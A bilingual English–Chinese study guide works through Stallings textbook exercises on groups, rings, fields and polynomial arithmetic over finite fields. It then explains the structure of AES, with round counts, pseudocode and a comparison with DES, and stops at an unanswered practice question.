(c) Multiply by \(x\) repeatedly: shift left and, if bit 4 becomes set, XOR \(10011\). The values are \(x^0,\dots,x^{14}=1,2,4,8,3,6,12,11,5,10,7,14,15,13,9\), and \(x^{15}=1\). All 15 nonzero elements occur, so \(x\) has order \(15=2^4-1\) and \(m(x)\) is primitive.（c）反复乘以 \(x\)：左移一位，若第 4 位变为 1，则异或 \(10011\)。所得值为 \(x^0,\dots,x^{14}=1,2,4,8,3,6,12,11,5,10,7,14,15,13,9\) 与 \(x^{15}=1\)。15 个非零元素全部出现，因此 \(x\) 的阶为 \(15=2^4-1\)，\(m(x)\) 是本原多项式。
(d) \(13=x^{13}\) and \(9=x^{14}\), so \(13\cdot9=x^{27\bmod15}=x^{12}=15\) (1111, \(x^3+x^2+x+1\)). Also \(11=x^7\), so \(11^{-1}=x^{15-7}=x^8=5\) (0101, \(x^2+1\)). Check: \((x^3+x+1)(x^2+1)=x^5+x^2+x+1\equiv(x^2+x)+x^2+x+1=1\).（d）\(13=x^{13}\) 与 \(9=x^{14}\)，故 \(13\cdot9=x^{27\bmod15}=x^{12}=15\)（1111，\(x^3+x^2+x+1\)）。另外 \(11=x^7\)，故 \(11^{-1}=x^{15-7}=x^8=5\)（0101，\(x^2+1\)）。验证：\((x^3+x+1)(x^2+1)=x^5+x^2+x+1\equiv(x^2+x)+x^2+x+1=1\)。
思路：本原 ⇒ \(x\) 的幂遍历全部 15 个非零元素，乘法变成指数相加（模 15）。
Textbook exercises课后习题
Textbook exercises with answers: 9 questions教材习题及答案，共 9 题，点击展开
E1. (Review Question 5.1, Stallings) Briefly define a group.E1. （复习题 5.1，Stallings）简述群的定义。
Answer
A group \(G\) is a set of elements with one binary operation \(\cdot\) that satisfies four axioms:群 \(G\) 是一个元素集合，配有一种二元运算 \(\cdot\)，满足下列四条公理：
- Closure: for all \(a, b \in G\), \(a \cdot b \in G\).封闭性：对所有 \(a, b \in G\)，有 \(a \cdot b \in G\)。
- Associativity: \(a \cdot (b \cdot c) = (a \cdot b) \cdot c\) for all \(a, b, c \in G\).结合律：对所有 \(a, b, c \in G\)，有 \(a \cdot (b \cdot c) = (a \cdot b) \cdot c\)。
- Identity: there is an element \(e \in G\) with \(a \cdot e = e \cdot a = a\) for all \(a \in G\).单位元：存在元素 \(e \in G\)，对所有 \(a \in G\) 有 \(a \cdot e = e \cdot a = a\)。
- Inverse: for every \(a \in G\) there is an \(a' \in G\) with \(a \cdot a' = a' \cdot a = e\).逆元：对每个 \(a \in G\)，都存在 \(a' \in G\) 使得 \(a \cdot a' = a' \cdot a = e\)。
If in addition \(a \cdot b = b \cdot a\) for all \(a, b\), the group is abelian (commutative). Examples: \((\mathbb{Z}, +)\) and the nonzero residues modulo a prime under multiplication.若另外还满足对所有 \(a, b\) 有 \(a \cdot b = b \cdot a\)，则该群是阿贝尔群（即交换群）。例如：\((\mathbb{Z}, +)\)，以及素数模下的非零剩余类在乘法下构成的群。
思路：群 = 封闭、结合、单位元、逆元四条；再加交换律就是阿贝尔群。
E2. (Review Question 5.2, Stallings) Briefly define a ring.E2. （复习题 5.2，Stallings）简述环的定义。
Answer
A ring \(R\) is a set with two binary operations, addition \(+\) and multiplication \(\times\), such that:环 \(R\) 是一个集合，配有两种二元运算，即加法 \(+\) 和乘法 \(\times\)，并满足：
- \((R, +)\) is an abelian group (closure, associativity, additive identity \(0\), additive inverses, commutativity of \(+\)).\((R, +)\) 是阿贝尔群（具有封闭性、结合律、加法单位元 \(0\)、加法逆元，以及 \(+\) 的交换律）。
- Multiplication is closed and associative: \(a \times (b \times c) = (a \times b) \times c\).乘法封闭且满足结合律：\(a \times (b \times c) = (a \times b) \times c\)。
- Multiplication distributes over addition: \(a \times (b + c) = a \times b + a \times c\) and \((a + b) \times c = a \times c + b \times c\).乘法对加法满足分配律：\(a \times (b + c) = a \times b + a \times c\) 与 \((a + b) \times c = a \times c + b \times c\)。
If multiplication is also commutative, the ring is commutative. Example: the integers \(\mathbb{Z}\), or the integers modulo \(n\).若乘法还满足交换律，则该环是交换环。例如整数集 \(\mathbb{Z}\)，或模 \(n\) 的整数集。
思路：环 = 加法是阿贝尔群 + 乘法封闭且结合 + 分配律。
E3. (Review Question 5.3, Stallings) Briefly define a field.E3. （复习题 5.3，Stallings）简述域的定义。
Answer
A field \(F\) is an integral domain in which every nonzero element has a multiplicative inverse. Spelled out, \(F\) is a set with addition and multiplication such that:域 \(F\) 是一个整环，其中每个非零元都有乘法逆元。具体地说，\(F\) 是一个带有加法和乘法的集合，并满足：
- \(F\) is a commutative ring: \((F, +)\) is an abelian group, multiplication is closed, associative and commutative, and it distributes over addition.\(F\) 是交换环：\((F, +)\) 是阿贝尔群，乘法封闭、满足结合律和交换律，并且对加法满足分配律。
- There is a multiplicative identity \(1 \neq 0\).存在乘法单位元 \(1 \neq 0\)。
- There are no zero divisors: \(ab = 0\) implies \(a = 0\) or \(b = 0\).没有零因子：\(ab = 0\) 蕴含 \(a = 0\) 或 \(b = 0\)。
- Every \(a \neq 0\) has an inverse \(a^{-1}\) with \(a a^{-1} = 1\).每个 \(a \neq 0\) 都有逆元 \(a^{-1}\)，使得 \(a a^{-1} = 1\)。
In a field one can add, subtract, multiply and divide (by nonzero elements). Examples: the rationals, the reals, and \(\mathbb{Z}_p\) for a prime \(p\). A finite field has a finite number of elements; its size is always \(p^n\) with \(p\) prime.在域中可以做加、减、乘，以及除以非零元的除法。例如：有理数域、实数域，以及素数 \(p\) 对应的 \(\mathbb{Z}_p\)。有限域的元素个数有限，其元素个数总为 \(p^n\)，其中 \(p\) 为素数。
思路：域 = 交换环 + 乘法单位元 + 无零因子 + 非零元有乘法逆元。
E4. (Review Question 5.4, Stallings) Briefly define an irreducible polynomial.E4. （复习题 5.4，Stallings）简述不可约多项式的定义。
Answer
Let \(F\) be a field. A polynomial \(f(x)\) of degree at least 1 over \(F\) is irreducible (also called prime) if it cannot be written as the product of two polynomials over \(F\) that both have lower degree than \(f\). Equivalently, its only divisors over \(F\) are constants and constant multiples of \(f\) itself.设 \(F\) 为域。\(F\) 上次数至少为 1 的多项式 \(f(x)\)，若不能写成 \(F\) 上两个次数都低于 \(f\) 的多项式之积，则称它为不可约的（也称素的）。等价地，它在 \(F\) 上的因式只有常数，以及 \(f\) 自身的常数倍。
Irreducibility depends on the field: \(x^2 + 1\) is irreducible over the reals but reducible over \(GF(2)\), where \(x^2 + 1 = (x+1)^2\). Irreducible polynomials play the role of primes: the polynomials modulo an irreducible \(m(x)\) of degree \(n\) over \(GF(p)\) form the field \(GF(p^n)\); AES uses \(m(x) = x^8 + x^4 + x^3 + x + 1\).不可约性取决于所在的域：\(x^2 + 1\) 在实数域上不可约，但在 \(GF(2)\) 上可约，其中 \(x^2 + 1 = (x+1)^2\)。不可约多项式起着素数的作用：对 \(GF(p)\) 上次数为 \(n\) 的不可约多项式 \(m(x)\) 取模所得的多项式，构成域 \(GF(p^n)\)；AES 使用 \(m(x) = x^8 + x^4 + x^3 + x + 1\)。
思路：不可约多项式 = 在该域上不能分解成两个更低次多项式之积，它是多项式环里的“素数”。
E5. (Problem 5.2, Stallings) Does the set of residue classes (mod 3) form a group (a) with respect to modular addition? (b) with respect to modular multiplication?E5. （习题 5.2，Stallings）模 3 的剩余类集合是否构成群：(a) 对模加法？(b) 对模乘法？
Answer
The set is \(\{0, 1, 2\}\). A group needs closure, associativity, an identity and inverses.该集合为 \(\{0, 1, 2\}\)。群需要封闭性、结合律、单位元和逆元。
(a) Addition mod 3: the sum of two residues is again a residue, addition is associative, the identity is \(0\), and the inverses are \(0^{-1} = 0\), \(1^{-1} = 2\), \(2^{-1} = 1\) (since \(1 + 2 = 3 \equiv 0\)). So it is a group, and it is abelian.(a) 模 3 加法：两个剩余类之和仍是剩余类，加法满足结合律，单位元为 \(0\)，逆元分别为 \(0^{-1} = 0\)、\(1^{-1} = 2\)、\(2^{-1} = 1\)（因为 \(1 + 2 = 3 \equiv 0\)）。因此它是群，并且是阿贝尔群。
(b) Multiplication mod 3: closure and associativity hold and the identity is \(1\), but \(0\) has no inverse, because \(0 \cdot x \equiv 0 \neq 1\) for every \(x\). So \(\{0, 1, 2\}\) is not a group under multiplication.(b) 模 3 乘法：封闭性和结合律成立，单位元为 \(1\)，但 \(0\) 没有逆元，因为对每个 \(x\) 都有 \(0 \cdot x \equiv 0 \neq 1\)。因此 \(\{0, 1, 2\}\) 在乘法下不构成群。
The nonzero classes \(\{1, 2\}\) do form a group under multiplication (the table is \(1 \cdot 1 = 1\), \(1 \cdot 2 = 2\), \(2 \cdot 2 = 4 \equiv 1\), so \(2^{-1} = 2\)). This works because 3 is prime; modulo a composite number it fails.非零剩余类 \(\{1, 2\}\) 在乘法下确实构成群（其乘法表为 \(1 \cdot 1 = 1\)、\(1 \cdot 2 = 2\)、\(2 \cdot 2 = 4 \equiv 1\)，因此 \(2^{-1} = 2\)）。这之所以成立，是因为 3 是素数；若模数为合数，则不成立。
思路：加法群成立；乘法因 0 无逆元而不成立，去掉 0 后（模素数）才是群。
E6. (Problem 5.7, Stallings) For polynomial arithmetic with coefficients in \(\mathbb{Z}_{11}\), perform the following calculations: (a) \((x^2 + 2x + 9)(x^3 + 11x^2 + x + 7)\); (b) \((8x^2 + 3x + 2)(5x^2 + 6)\).E6. （习题 5.7，Stallings）对系数取自 \(\mathbb{Z}_{11}\) 的多项式，进行下列计算：(a) \((x^2 + 2x + 9)(x^3 + 11x^2 + x + 7)\)；(b) \((8x^2 + 3x + 2)(5x^2 + 6)\)。
Answer
Method: multiply as ordinary polynomials, then reduce every coefficient modulo 11.方法：先按普通多项式相乘，再把每个系数按模 11 化简。
(a) Since \(11 \equiv 0\), the second factor is \(x^3 + x + 7\). Then(a) 由于 \(11 \equiv 0\)，第二个因式为 \(x^3 + x + 7\)。于是
\((x^2 + 2x + 9)(x^3 + x + 7) = x^5 + x^3 + 7x^2 + 2x^4 + 2x^2 + 14x + 9x^3 + 9x + 63\)
\(= x^5 + 2x^4 + 10x^3 + 9x^2 + 23x + 63\).
Reducing \(23 \equiv 1\) and \(63 \equiv 8 \pmod{11}\) gives化简 \(23 \equiv 1\) 与 \(63 \equiv 8 \pmod{11}\) 后得到
\[x^5 + 2x^4 + 10x^3 + 9x^2 + x + 8.\]
(b) \((8x^2 + 3x + 2)(5x^2 + 6) = 40x^4 + 15x^3 + (48 + 10)x^2 + 18x + 12\). Modulo 11: \(40 \equiv 7\), \(15 \equiv 4\), \(58 \equiv 3\), \(18 \equiv 7\), \(12 \equiv 1\), so(b) \((8x^2 + 3x + 2)(5x^2 + 6) = 40x^4 + 15x^3 + (48 + 10)x^2 + 18x + 12\)。按模 11 计算：\(40 \equiv 7\)、\(15 \equiv 4\)、\(58 \equiv 3\)、\(18 \equiv 7\)、\(12 \equiv 1\)，因此
\[7x^4 + 4x^3 + 3x^2 + 7x + 1.\]
Because \(\mathbb{Z}_{11}\) is a field, polynomials over it form a ring, and the product is computed coefficient by coefficient in that field.由于 \(\mathbb{Z}_{11}\) 是域，其上的多项式构成环，乘积是在该域中逐个系数计算的。
思路：先按普通多项式相乘，再把每个系数模 11 约化。
E7. (Problem 5.8, Stallings) Determine which of the following polynomials are reducible over \(GF(2)\): (a) \(x^2 + 1\); (b) \(x^2 + x + 1\); (c) \(x^4 + x + 1\).E7. （习题 5.8，Stallings）判断下列多项式在 \(GF(2)\) 上哪些是可约的：(a) \(x^2 + 1\)；(b) \(x^2 + x + 1\)；(c) \(x^4 + x + 1\)。
Answer
Method: a polynomial of degree 2 or 3 is reducible over a field exactly when it has a root in that field. A polynomial of degree 4 is reducible if it has a root or is divisible by an irreducible quadratic. The only polynomials in \(GF(2)\) to test are the values \(0\) and \(1\).方法：次数为 2 或 3 的多项式在域上可约，当且仅当它在该域中有根。次数为 4 的多项式，若有根或能被某个不可约二次式整除，则可约。在 \(GF(2)\) 中需要代入检验的只有 \(0\) 和 \(1\) 这两个值。
(a) \(f(1) = 1 + 1 = 0\), so \(x + 1\) divides \(f\): \(x^2 + 1 = (x + 1)^2\). Reducible.(a) \(f(1) = 1 + 1 = 0\)，因此 \(x + 1\) 整除 \(f\)：\(x^2 + 1 = (x + 1)^2\)。可约。
(b) \(f(0) = 1\) and \(f(1) = 1 + 1 + 1 = 1\), no root, degree 2. Irreducible.(b) \(f(0) = 1\) 且 \(f(1) = 1 + 1 + 1 = 1\)，没有根，次数为 2。不可约。
(c) \(f(0) = 1\) and \(f(1) = 1 + 1 + 1 = 1\), so there is no linear factor. The only irreducible quadratic over \(GF(2)\) is \(x^2 + x + 1\) (the other quadratics \(x^2\), \(x^2 + 1\), \(x^2 + x\) have a root). Dividing, \(x^4 + x + 1 = (x^2 + x)(x^2 + x + 1) + 1\), with remainder \(1 \neq 0\). So no factor of degree 1 or 2 exists. Irreducible.(c) \(f(0) = 1\) 且 \(f(1) = 1 + 1 + 1 = 1\)，因此不存在一次因式。在 \(GF(2)\) 上唯一的不可约二次式是 \(x^2 + x + 1\)（其余的二次式 \(x^2\)、\(x^2 + 1\)、\(x^2 + x\) 都有根）。作除法得 \(x^4 + x + 1 = (x^2 + x)(x^2 + x + 1) + 1\)，余式为 \(1 \neq 0\)。因此不存在次数为 1 或 2 的因式。不可约。
Result: only (a) is reducible. Polynomial (c) is irreducible and defines \(GF(2^4)\).结论：只有 (a) 是可约的。多项式 (c) 不可约，并定义了 \(GF(2^4)\)。
思路：2、3 次多项式有根即可约；4 次还要排除二次不可约因子 \(x^2+x+1\)。
E8. (Problem 5.9, Stallings) Determine the gcd of the following pairs of polynomials: (a) \(x^3 + 1\) and \(x^2 + x + 1\) over \(GF(2)\); (b) \(x^3 + x + 1\) and \(x^2 + 1\) over \(GF(3)\); (c) \(x^3 - 2x + 1\) and \(x^2 - x - 2\) over \(GF(5)\); (d) \(x^4 + 8x^3 + 7x + 8\) and \(2x^3 + 9x^2 + 10x + 1\) over \(GF(11)\).E8. （习题 5.9，Stallings）求下列各对多项式的最大公因式：(a) 在 \(GF(2)\) 上，\(x^3 + 1\) 与 \(x^2 + x + 1\)；(b) 在 \(GF(3)\) 上，\(x^3 + x + 1\) 与 \(x^2 + 1\)；(c) 在 \(GF(5)\) 上，\(x^3 - 2x + 1\) 与 \(x^2 - x - 2\)；(d) 在 \(GF(11)\) 上，\(x^4 + 8x^3 + 7x + 8\) 与 \(2x^3 + 9x^2 + 10x + 1\)。
Answer
Method: Euclid's algorithm for polynomials, \(\gcd(a, b) = \gcd(b, a \bmod b)\) until the remainder is \(0\). The gcd is the last nonzero remainder, made monic (leading coefficient 1).方法：对多项式使用欧几里得算法，\(\gcd(a, b) = \gcd(b, a \bmod b)\)，直到余式为 \(0\)。最大公因式取最后一个非零余式，并化为首一的（首项系数为 1）。
(a) \(x^3 + 1 = (x + 1)(x^2 + x + 1) + 0\). The remainder is \(0\), so the gcd is \(x^2 + x + 1\).(a) \(x^3 + 1 = (x + 1)(x^2 + x + 1) + 0\)。余式为 \(0\)，因此最大公因式为 \(x^2 + x + 1\)。
(b) \(x^3 + x + 1 = x(x^2 + 1) + 1\); then \(x^2 + 1 = (x^2 + 1) \cdot 1 + 0\). The last nonzero remainder is \(1\), so the gcd is \(1\) (the polynomials are relatively prime).(b) \(x^3 + x + 1 = x(x^2 + 1) + 1\)；然后 \(x^2 + 1 = (x^2 + 1) \cdot 1 + 0\)。最后一个非零余式为 \(1\)，因此最大公因式为 \(1\)（这两个多项式互素）。
(c) \(x^3 - 2x + 1 = (x + 1)(x^2 - x - 2) + (x + 3)\), since \((x+1)(x^2 - x - 2) = x^3 - 3x - 2\) and \(-2x + 1 - (-3x - 2) = x + 3\). Next, \(x^2 - x - 2 = (x + 1)(x + 3) + 0\) modulo 5, because \((x+1)(x+3) = x^2 + 4x + 3 \equiv x^2 - x - 2\). The gcd is \(x + 3\).(c) \(x^3 - 2x + 1 = (x + 1)(x^2 - x - 2) + (x + 3)\)，因为 \((x+1)(x^2 - x - 2) = x^3 - 3x - 2\) 且 \(-2x + 1 - (-3x - 2) = x + 3\)。接着，按模 5 计算 \(x^2 - x - 2 = (x + 1)(x + 3) + 0\)，因为 \((x+1)(x+3) = x^2 + 4x + 3 \equiv x^2 - x - 2\)。最大公因式为 \(x + 3\)。
(d) \(x^4 + 8x^3 + 7x + 8 = (6x + 10)(2x^3 + 9x^2 + 10x + 1) + (4x^2 + 9)\) modulo 11. Next, \(2x^3 + 9x^2 + 10x + 1 = (6x + 5)(4x^2 + 9) + 0\). The last nonzero remainder is \(4x^2 + 9\). Multiplying by \(4^{-1} = 3\) (since \(4 \cdot 3 = 12 \equiv 1\)) makes it monic: \(12x^2 + 27 \equiv x^2 + 5\). The gcd is \(x^2 + 5\).(d) 按模 11 计算 \(x^4 + 8x^3 + 7x + 8 = (6x + 10)(2x^3 + 9x^2 + 10x + 1) + (4x^2 + 9)\)。接着，\(2x^3 + 9x^2 + 10x + 1 = (6x + 5)(4x^2 + 9) + 0\)。最后一个非零余式为 \(4x^2 + 9\)。乘以 \(4^{-1} = 3\)（因为 \(4 \cdot 3 = 12 \equiv 1\)）使其首一化：\(12x^2 + 27 \equiv x^2 + 5\)。最大公因式为 \(x^2 + 5\)。
Result: (a) \(x^2 + x + 1\), (b) \(1\), (c) \(x + 3\), (d) \(x^2 + 5\). The gcd is unique only up to a constant factor, so one normalises it to be monic.结论：(a) \(x^2 + x + 1\)，(b) \(1\)，(c) \(x + 3\)，(d) \(x^2 + 5\)。最大公因式只在相差一个常数因子的意义下唯一，所以要将其规范为首一多项式。
思路：多项式辗转相除，最后一个非零余式化为首一多项式。
E9. (Problem 5.11, Stallings) Determine the multiplicative inverse of \(x^2 + 1\) in \(GF(2^3)\) with \(m(x) = x^3 + x - 1\).E9. （习题 5.11，Stallings）在 \(GF(2^3)\) 中，用 \(m(x) = x^3 + x - 1\) 求 \(x^2 + 1\) 的乘法逆元。
Answer
Coefficients are in \(GF(2)\), where \(-1 = 1\), so \(m(x) = x^3 + x + 1\). This is irreducible: it has no root in \(GF(2)\) and its degree is 3. Reduction rule: \(x^3 = x + 1\).系数取自 \(GF(2)\)，其中 \(-1 = 1\)，因此 \(m(x) = x^3 + x + 1\)。它是不可约的：在 \(GF(2)\) 中没有根，且次数为 3。化简规则：\(x^3 = x + 1\)。
Extended Euclidean algorithm for \(a(x) = x^2 + 1\) and \(m(x)\):对 \(a(x) = x^2 + 1\) 与 \(m(x)\) 运行扩展欧几里得算法：
\(x^3 + x + 1 = x(x^2 + 1) + 1\), so \(1 = m(x) + x \cdot a(x)\).\(x^3 + x + 1 = x(x^2 + 1) + 1\)，因此 \(1 = m(x) + x \cdot a(x)\)。
Taking this modulo \(m(x)\) gives \(x \cdot a(x) \equiv 1\), so \(a(x)^{-1} = x\).将其按模 \(m(x)\) 化简，得到 \(x \cdot a(x) \equiv 1\)，因此 \(a(x)^{-1} = x\)。
Check: \((x^2 + 1) \cdot x = x^3 + x = (x + 1) + x = 1\).验算：\((x^2 + 1) \cdot x = x^3 + x = (x + 1) + x = 1\)。
The inverse of \(x^2 + 1\) is \(x\).\(x^2 + 1\) 的逆元为 \(x\)。
思路：一步辗转相除就得 \(1=m(x)+x(x^2+1)\)，所以逆元是 \(x\)；GF(2) 里 \(-1=1\)。
Chapter 6Advanced Encryption Standard (AES)高级加密标准 AESReading: Stallings (Crypto) Ch. 6; Stallings & Brown 20.3
AES Structure ★★★AES 结构
Goal. State the parameters of AES and compute the number of rounds, round keys and key words. List the stages of encryption in order. Explain why the structure looks the way it does, and compare AES with DES.目标。 给出 AES 的参数，并计算轮数、轮密钥数和密钥字数。按顺序列出加密的各个步骤。解释其结构为何如此设计，并比较 AES 与 DES。
Step 1: the parameters第 1 步：参数
In words: AES encrypts one 128-bit block at a time, and the key length (128, 192 or 256 bits) decides how many rounds are run.用文字表述：AES 每次加密一个 128 位的分组，密钥长度（128、192 或 256 位）决定运行多少轮。
The Advanced Encryption Standard (AES)（高级加密标准）is the symmetric block cipher（分组密码）that NIST published in 2001 to replace DES and triple DES. It is the Rijndael design. AES-128, AES-192 and AES-256 are named after their key length.高级加密标准（AES）是 NIST 于 2001 年发布的对称分组密码，用于取代 DES 和三重 DES。它就是 Rijndael 设计。AES-128、AES-192 和 AES-256 以其密钥长度命名。
| AES-128 | AES-192 | AES-256 | |
|---|---|---|---|
| Key length \(N_k\) (words / bits) | 4 / 128 | 6 / 192 | 8 / 256 |
| Rounds \(N_r\) | 10 | 12 | 14 |
| Round keys (\(N_r+1\)) | 11 | 13 | 15 |
| Expanded key (words / bytes)扩展密钥（字 / 字节） | 44 / 176 | 52 / 208 | 60 / 240 |
Worked case for AES-192: \(N_k=192/32=6\), so \(N_r=6+6=12\). There are \(12+1=13\) round keys and \(W=4\times13=52\) words, that is \(52\times4=208\) bytes.AES-192 的计算示例：\(N_k=192/32=6\)，因此 \(N_r=6+6=12\)。共有 \(12+1=13\) 个轮密钥和 \(W=4\times13=52\) 个字，即 \(52\times4=208\) 字节。
Step 2: the structure of encryption第 2 步：加密的结构
In words: AES first mixes in the key, then repeats a round of scrambling and key mixing, and the last round is a shortened one.用文字表述：AES 先与密钥混合，然后重复执行打乱字节与混入密钥的一轮操作，最后一轮是缩减版本。
The block fills the State column by column and the key is arranged in the same way.分组按列填入状态数组，密钥也按同样的方式排列。


Encryption has three parts.加密分为三个部分。
- Round 0: AddRoundKey（轮密钥加）alone, with the first round key.第 0 轮：仅做 AddRoundKey（轮密钥加），使用第一个轮密钥。
- Rounds 1 to \(N_r-1\): four stages each, in this order: SubBytes（字节替换）, ShiftRows（行移位）, MixColumns（列混合）, AddRoundKey.第 1 轮至第 \(N_r-1\) 轮：每轮四个步骤，依次为 SubBytes（字节代换）、ShiftRows（行移位）、MixColumns（列混淆）、AddRoundKey（轮密钥加）。
- Round \(N_r\): three stages, SubBytes, ShiftRows and AddRoundKey. MixColumns is omitted.第 \(N_r\) 轮：三个步骤，即 SubBytes、ShiftRows 和 AddRoundKey。省略 MixColumns。
Decryption runs the inverse stages in the opposite order with the round keys in reverse order. The next figure shows encryption going down and decryption going up.解密以相反的顺序执行逆步骤，轮密钥也按相反的顺序使用。下图中，加密自上而下，解密自下而上。


Cipher(byte in[16], word w[4(Nr+1)]):
State = in
AddRoundKey(State, w[0..3])
for round = 1 to Nr-1:
SubBytes(State); ShiftRows(State); MixColumns(State)
AddRoundKey(State, w[4*round .. 4*round+3])
SubBytes(State); ShiftRows(State)
AddRoundKey(State, w[4*Nr .. 4*Nr+3])
out = State
Step 3: why the structure looks like this第 3 步：结构为何如此
Five facts explain the design. Each one can be asked as a short "explain why" question.五条事实解释了这一设计。每一条都可以作为简短的“解释原因”题来提问。
- AES is not a Feistel cipher（Feistel 密码）. A Feistel round changes half the block and swaps the halves. AES changes the whole State in every round with substitutions and a permutation. It is a substitution–permutation network（代换–置换网络）.AES 不是 Feistel 密码。Feistel 的一轮只改变分组的一半，然后交换两半。AES 则在每一轮中通过代换和置换改变整个状态数组。它是一个代换–置换网络。
- Only AddRoundKey uses the key. The cipher therefore begins and ends with it. A keyless stage at the very start or end can be undone by anyone and adds no security.只有 AddRoundKey 使用密钥。因此，密码以它开始，也以它结束。在最开始或最末尾的无密钥步骤任何人都能撤销，不增加任何安全性。
- Keyed and keyless stages alternate. AddRoundKey alone is a Vernam-style XOR and is weak. The other three stages give confusion（混淆）, diffusion（扩散）and nonlinearity, but they have no key, so alone they give no security. The alternation is both efficient and strong.有密钥步骤与无密钥步骤交替出现。单独的 AddRoundKey 就是 Vernam 式的 XOR，很弱。其余三个步骤提供混淆、扩散和非线性，但它们没有密钥，因此单独使用时没有安全性。这种交替既高效又安全。
- Every stage is invertible. AddRoundKey is its own inverse, because \(A\oplus B\oplus B=A\). Decryption is still not the same algorithm as encryption (Section 6.6).每个步骤都可逆。AddRoundKey 就是它自己的逆，因为 \(A\oplus B\oplus B=A\)。但解密仍然不是与加密相同的算法（见第 6.6 节）。
- The last round omits MixColumns. This costs no security (Section 6.6).最后一轮省略 MixColumns。这样做不会损失安全性（见第 6.6 节）。
Step 4: AES compared with DES第 4 步：AES 与 DES 的比较
| Element要素 | DES (Chapter 4)DES（第 4 章） | AES |
|---|---|---|
| Block / key分组 / 密钥 | 64 bits / 56 bits64 位 / 56 位 | 128 bits / 128, 192 or 256 bits128 位 / 128、192 或 256 位 |
| Structure结构 | Feistel, 16 rounds, half block changed per roundFeistel，16 轮，每轮改变半个分组 | substitution–permutation, 10/12/14 rounds, whole block per round代换–置换，10/12/14 轮，每轮改变整个分组 |
| S-boxesS 盒 | eight 6-bit to 4-bit tables八个 6 位到 4 位的表 | one invertible 8-bit to 8-bit S-box from the GF(\(2^8\)) inverse一个由 GF(\(2^8\)) 中的逆构造的可逆 8 位到 8 位 S 盒 |
| Key schedule密钥编排 | permutations and rotations give sixteen 48-bit subkeys置换与循环移位生成十六个 48 位子密钥 | word-based expansion with RotWord, SubWord, Rcon基于字的扩展，使用 RotWord、SubWord 和 Rcon |
| Initial/final permutation初始 / 末尾置换 | yes, no cryptographic value有，无密码学意义 | none无 |
| Decryption解密 | same structure, subkeys reversed结构相同，子密钥顺序相反 | different (inverse) transformations不同的（逆）变换 |
| Avalanche (about half the bits changed)雪崩效应（约一半比特发生改变） | after 3 rounds经过 3 轮后 | after 2 rounds经过 2 轮后 |
Practice练习
Q1. (Calculation) For AES-256, give the number of rounds, the number of round keys, the length of the expanded key in words and bytes, and the number of S-box lookups applied to the State when one block is encrypted.Q1.（计算）对于 AES-256，给出轮数、轮密钥个数、扩展密钥以字和字节计的长度，以及加密一个分组时作用于状态数组的 S 盒查表次数。
Answer
